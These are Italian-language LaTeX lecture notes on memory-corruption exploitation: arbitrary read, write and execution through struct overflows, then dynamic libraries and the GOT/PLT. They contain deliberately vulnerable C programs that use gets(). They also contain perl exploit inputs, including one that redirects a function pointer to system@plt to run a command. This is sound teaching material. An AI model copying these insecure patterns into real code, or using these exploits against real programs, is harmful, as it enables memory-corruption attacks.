\chapter{Smashing software}

\section{Memory Corruption}

\subsection{Arbitrary Read}
Un'\textbf{Arbitrary Read} è la possibilità di leggere qualsiasi parte della memoria (mappata) in processo.
Ecco un esempio di lettura arbitraria della memoria:
\begin{lstlisting}[language=C]
    uint32_t arbitrary_read(uint32_t *ptr) {
        return *ptr;
    }
\end{lstlisting}
Questo metodo ci aiuta a scoprire il valore del canarino e i valori di indirizzi generati dall'ASLR, nel caso ci fosse questo tipo di vulnerabilità saremo in grado di bypassare le protezioni citate.

Vediamone un esempio:
\begin{lstlisting}[language=C]
struct person {
    char age[4];
    char *name;
};
int main (...) {
    struct person a;
    a.name = malloc (20);
    printf("name?\n");
    gets(a.name);
    printf("age?\n");
    gets(a.age);
    printf("%s\n", a.name);
    return 0;
}
\end{lstlisting}
Schema delle variabili di una struct in memoria:
\newline

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            a.age \\
            \hline
            \&a.name \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lema}[]{}{}
    Al contrario delle variabili nello stack che vengono salvata dal basso verso l'alto, quando nelle struct le variabili verranno salvate dall'alto verso il basso.
\end{lema}
Il seguente comando leggerà il contenuto della memoria all'indirizzo 0x43434343:
\begin{lstlisting}[language=bash]
    perl -e \ 'print "A\n","B"x20 ,"C"x4' | ./vuln
\end{lstlisting}

\subsection{Arbitrary write}
Analogamente all'arbitrary read vi è anche l'\textbf{arbitrary write}, che dà la possibilità di scrivere in una zona di memoria arbitraria qualunque purchè mappata nel processo.
\begin{lstlisting}[language=C]
    void arbitrary_write(uint32_t *ptr , uint32_t val) {
        *ptr = val;
    }
\end{lstlisting}
Al contrario della \textit{gets} che ha bisogno di sfondare tutto il buffer per raggiungere l''indirizzo di ritorno, grazie all'utilizzo dell'a.w. potremo leggere zone della memoria arbitrarie e contestualmente modificarle a nostro piacimento (ove possibile), questo ci aiiterà a eseguire codice nel programma, alterandone la sua esecuzione.

\begin{lstlisting}[language=C]
    struct person {
        char age [4];
        char *name;
    };

    int main (...) {
        struct person a;
        a.name = malloc (20);
        printf("age?\n");
        gets(a.age);
        printf("name?\n");
        gets(a.name);
        return 0;
    }
\end{lstlisting}

\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            age \\
            \hline
            name \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lstlisting}[language=bash]
    perl -e \ 'print "AAAACCCC\n","ciao" '| ./vuln
\end{lstlisting}
Grazie al precedente comando potremo scrivere la string "ciao" all'indirizzo di memoria 0x43434343.

\subsection{Arbitrary execution}
Oltre la scrittura e la lettura avremo anche l'esecuzione, che prende il nome di \textbf{Arbitrary execution}, ciò ci darà la possibilità di eseguire arbitrariamente qualunque parte della memoria mappata dal processo.
\begin{lstlisting}[language=C]
    void bark(char *s) {
        printf("woof %s!\n", s); 
    }

    struct animal {
        char name [4];
        void (*cry)( char *);
    };

    int main (...) {
        char s[128];
        struct animal dog;
        dog.cry = bark;
        gets(dog.name);
        gets(s);
        dog.cry(s);
    }
\end{lstlisting}
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{|c|}
            \hline
            name \\
            \hline
            cry() \\
            \hline
        \end{tabular}
    \end{table}
\end{center}

\begin{lstlisting}[language=bash]
    perl -e \ 'print "AAAACCCC\n","ls" '| ./vuln
\end{lstlisting}
Questo comando ci permetterà di eseguire porzione di codice inserito all'indirizzo 0x43434343, in questo caso \textit{ls}.

\begin{ex}
    \begin{lstlisting}[language=bash]
        echo "p system" | gdb -q ./vuln
        Reading symbols from ./vuln ... done.
        (gdb) $1 = 0x80483d0 <system@plt >
        $ perl -e 'print "AAAA\xd0\x83\x04\x08\n","ls" | ./vuln
        Name?
        Cry?
        vuln vuln.c
    \end{lstlisting}
    in questo esempio attraverso \textit{gdb} riusciremo a trovare l'indirizzo, sfruttandolo per eseguire \textit{ls}.
\end{ex}

\section{Librerie Dinamiche}

\subsection{Introduzione}
Una libreria dinamica è una porzione di codice che viene caricata nel binario subito prima dell'esecuzione del programma (runtime), questa metodologia ha molti vantaggi:
\begin{itemize}
    \item la condivisione del codice delle librerie solo se necessarie, e.g. avremo solo una copia del codice della printf in memoria;
    \item aggiornamento della libreria una volta per tutti i programmi che la implementano;
    \item si riduce sensibilmente la grandezza del binario finale.
\end{itemize}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/dynamic_libraries.png}
    \caption{}
\end{figure}

\subsection{GOT (Global Offset Table) e PLT (Procedure Linkage Table)}
Il programma, o una libreria, può essere caricata in un qualunque punto della memoria (anche per essere compatibile com ASLR).
Per fare questo si utilizza una \textbf{GOT (Global Offset Table)} che è caricata nel programma (attraverso il dynamic loader) questa si utilizza per avere gli indirizzi dei simboli.
La controparte inceve per caricare gli indirizzi delle funzioni si utilizza la \textbf{PLT (Procedure Linkage Table)}.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=.5\linewidth]{res/GOT_PLT.png}
    \caption{}
\end{figure}